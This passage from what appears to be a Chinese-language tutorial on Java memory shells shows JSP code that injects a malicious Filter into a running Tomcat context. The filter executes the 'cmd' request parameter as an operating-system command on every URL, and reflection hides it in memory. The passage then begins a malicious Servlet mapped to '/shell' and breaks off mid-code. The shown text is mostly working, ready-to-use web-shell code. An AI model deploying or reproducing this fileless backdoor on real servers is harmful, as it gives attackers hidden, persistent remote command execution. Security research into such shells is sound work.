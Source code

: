 ```java
        public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
            String cmd = request.getParameter("cmd");
            if (cmd != null) {
                try {
                    Runtime.getRuntime().exec(cmd);
                } catch (IOException e) {
                    e.printStackTrace();
                } catch (NullPointerException n) {
                    n.printStackTrace();
                }
            }
            chain.doFilter(request, response);
        }
    }
%>
 
<%
    Shell_Filter filter = new Shell_Filter();
    String name = "CommonFilter";
    FilterDef filterDef = new FilterDef();
    filterDef.setFilter(filter);
    filterDef.setFilterName(name);
    filterDef.setFilterClass(filter.getClass().getName());
    standardContext.addFilterDef(filterDef);
 
 
    FilterMap filterMap = new FilterMap();
    filterMap.addURLPattern("/*");
    filterMap.setFilterName(name);
    filterMap.setDispatcher(DispatcherType.REQUEST.name());
    standardContext.addFilterMapBefore(filterMap);
 
 
    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);
 
    Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
    constructor.setAccessible(true);
    ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);
    filterConfigs.put(name, filterConfig);
%>
```
![image.png](https://cdn.nlark.com/yuque/0/2024/png/25404035/1712725948950-4e53e76a-21d8-491c-a2d3-611e4e2e6d71.png#averageHue=%2370c266&clientId=u3bbf27cd-609b-4&from=paste&height=470&id=u10bad703&originHeight=940&originWidth=1464&originalType=binary&ratio=2&rotation=0&showTitle=false&size=338683&status=done&style=none&taskId=u1f31697b-7027-46f6-911a-83df1c9ea13&title=&width=732)
## 4.3、Servlet型
实现恶意的`Servlet`马
```java
package com.ma.ServletMa;

import javax.servlet.*;
import javax.servlet.annotation.WebServlet;
import java.io.IOException;

@WebServlet("/shell")
public class ServletMa1 implements Servlet {
    @Override
    public void init(ServletConfig config) throws ServletException {

```